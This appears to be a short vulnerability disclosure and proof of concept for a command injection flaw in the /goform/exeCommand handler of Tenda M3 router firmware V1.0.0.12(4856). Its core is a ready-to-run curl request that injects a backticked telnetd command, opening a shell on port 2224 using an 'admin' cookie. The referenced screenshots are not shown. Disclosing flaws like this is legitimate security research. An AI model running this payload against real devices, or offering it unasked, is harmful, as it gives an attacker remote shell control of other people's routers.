 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/exeCommand route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)

When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/exeCommand -d cmdinput='`telnetd -p 2224 -l /bin/sh`' --cookie "user=admin"
```





![poc](./poc.jpg)

